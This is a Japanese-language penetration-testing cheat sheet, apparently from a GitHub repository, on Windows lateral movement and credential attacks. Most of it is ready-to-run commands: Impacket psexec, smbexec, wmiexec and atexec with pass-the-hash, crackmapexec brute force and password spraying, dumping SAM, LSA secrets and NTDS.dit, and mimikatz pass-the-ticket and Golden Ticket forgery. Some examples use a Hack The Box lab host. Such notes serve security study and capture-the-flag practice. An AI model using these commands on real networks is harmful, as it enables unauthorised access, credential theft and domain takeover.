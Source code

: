 ## 目次

1. [Impacket](#impacket)
    - [psexec](#psexec)
    - [smbexec](#smbexec)
    - [wmiexec](#wmiexec)
    - [atexec](#atexec)
2. [winrs](#winrs)
3. [crackmapexec](#crackmapexec)
    - [基本コマンド](#crackmapexec-基本コマンド)
    - [モジュール](#crackmapexec-モジュール)
4. [Pass the ticket](#pass-the-ticket)
5. [Golden Ticket](#golden-ticket)

## impacket

ここでは、主に資格情報やハッシュを用いてリモートでコマンドを実行するためのツールについて説明します。

### psexec

`psexec`は、管理者権限を持つユーザーがリモートシステムでコマンドを実行できるツールです。

```bash
psexec.py <domain>/<user>:<password1>@<IP>
```

ユーザーはリモートシステムの管理共有（例：C$）への書き込みアクセス権を持っている必要があり、その後、セッションを取得できます。

#### ハッシュ使用例

パスワードの代わりにNTLMハッシュを使用する場合、以下のようにコマンドを実行します。

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

他にも、以下のように実行できます。

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@jeeves.htb cmd.exe
```

### smbexec

`smbexec`は、`psexec`に似ていますが、リモートでコマンドを実行する際にSMB（Server Message Block）プロトコルを使用します。

```bash
smbexec.py <domain>/<user>:<password1>@<IP>
```

また、以下のようにハッシュを使用することもできます。

```bash
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### wmiexec

`wmiexec`は、Windows Management Instrumentation（WMI）を使用してリモートシステムでコマンドを実行するツールです。

```bash
wmiexec.py <domain>/<user>:<password1>@<IP>
```

ハッシュを使用する場合は、以下のように実行します。

```bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### atexec

`atexec`は、Windowsのタスクスケジューラを利用してコマンドをリモート実行するツールです。ハッシュを使用して実行する場合は、以下のコマンドを使います。

```bash
atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

---

## winrs

`winrs`は、Windows Remote Shellを使用してリモートシステムでコマンドを実行するためのツールです。以下のコマンドで、ユーザーがシステムにアクセス可能か確認し、その後リバースシェルを実行できます。

```bash
winrs -r:<computername> -u:<user> -p:<password> "command"
```

このコマンドは、Windowsセッション内で実行します。

---

## crackmapexec

`crackmapexec`は、ネットワーク上の複数のホストに対して様々な攻撃を自動化するためのツールです。

### crackmapexec 基本コマンド

以下は、`crackmapexec`の基本的な使用例です。

```bash
crackmapexec smb jeeves.htb -u Administrator -p passwords
```

`crackmapexec`は、`smb`, `winrm`, `mssql`, `ldap`, `ftp`, `ssh`, `rdp`などのサービスに対して利用可能です。次に、SMBサービスに対してブルートフォース攻撃を行うコマンド例を示します。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # "Pwned"と表示されます
```

以下は、SMBに対するパスワードスプレー攻撃の例です。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success
```

その他の有用なコマンド例：

```bash
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares # 共有フォルダのリストを表示
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks # ディスク情報の取得
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users # DCのユーザー情報を取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions # アクティブセッションの確認
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol # パスワードポリシーの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam # SAMハッシュの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa # LSAシークレットのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds # NTDS.ditファイルのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} # 特定のグループに属するユーザーの列挙
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' # コマンドの実行, "-x"はcmd, "-X"はpowershellコマンド用
```

### crackmapexec モジュール

`crackmapexec`には、様々なモジュールがあります。以下は、モジュールに関するコマンド例です。

```bash
crackmapexec smb -L # モジュールのリストを表示
crackmapexec smb -M mimikatx --options # モジュールの必要なオプションを表示
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz # デフォルトコマンドの実行
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' # 特定のコマンドを実行
```

---

## Pass the ticket

`Pass the ticket`攻撃は、Mimikatzを用いてKerberosチケットを取得し、それを他のシステムで使用する攻撃です。

```bash
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

---

## Golden Ticket

`Golden Ticket`は、ドメインコントローラ上の`krbtgt`アカウントの秘密情報を使用して、任意のユーザーとして認証を行う攻撃です。

```bash
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:
```
